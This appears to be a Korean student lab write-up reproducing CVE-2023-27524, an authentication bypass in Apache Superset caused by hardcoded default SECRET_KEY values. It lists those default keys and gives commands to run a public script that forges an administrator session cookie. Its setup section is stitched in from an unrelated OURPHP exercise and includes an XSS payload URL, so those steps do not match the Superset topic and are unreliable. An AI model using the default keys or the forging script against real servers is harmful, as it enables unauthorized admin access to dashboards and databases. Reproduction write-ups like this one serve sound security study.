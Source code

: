 # Apache Superset Hardcoded JWT Secret Key Leads to Authentication Bypass
WHS_3기_31반_최준우

## 요약
Apache Superset은 시각적, 직관적, 대화형으로 설계된 오픈소스 데이터 탐색 및 시각화 플랫폼입니다.

Apache Superset에는 하드코딩된 JWT 비밀 키 취약점(CVE-2023-27524)이 포함되어 있습니다. 이 애플리케이션은 SECRET_KEY세션 쿠키 서명에 사용되는 기본값을 포함하고 있습니다. 관리자가 이 기본 키를 변경하지 않으면 공격자는 유효한 세션 쿠키를 위조하여 관리자를 포함한 모든 사용자로 인증할 수 있습니다. 이를 통해 Superset 대시보드 및 연결된 데이터베이스에 대한 무단 접근이 허용되고, 잠재적으로 원격 코드 실행으로 이어질 수 있습니다.

CVE-2023-37941 과 결합될 경우 , 인증되지 않은 공격자는 인증을 우회한 후 역직렬화 취약점을 악용하여 원격 코드 실행을 달성할 수 있습니다. 이 문서는 CVE-2023-27524의 악용 사례만 설명합니다.

## 환경 구성 및 실행
docker compose up
localhost:8080으로 접속
OURPHP 초기 설정에 다음과 같이 입력 database connection address : db username : root password : root database name : data
payload인 localhost:8080/client/manage/ourphp_out.php?ourphp_admin=logout&out=</script><script>alert("xss")</script> 입력

참고문헌:
https://www.horizon3.ai/attack-research/disclosures/cve-2023-27524-insecure-default-configuration-in-apache-superset-leads-to-remote-code-execution/
https://github.com/horizon3ai/CVE-2023-27524

## 취약점 재생산
Superset이 다음의 하드코딩된 기본값 중 하나를 사용하기 때문에 취약점이 존재합니다 SECRET_KEY.

\x02\x01thisismyscretkey\x01\x02\\e\\y\\y\\h(버전 < 1.4.1)
CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET(버전 >= 1.4.1)
thisISaSECRET_1234(배포 템플릿)
YOUR_OWN_RANDOM_GENERATED_SECRET_KEY(선적 서류 비치)
TEST_NON_DEV_SECRET(도커 컴포즈)
CVE-2023-27524.py를 사용하여 관리자 세션(user_id가 1인) 쿠키를 위조합니다.

# Install dependencies
pip install -r requirements.txt

# Forge an administrative session (whose user_id is 1) cookie
python CVE-2023-27524.py --url http://your-ip:8088 --id 1 --validate
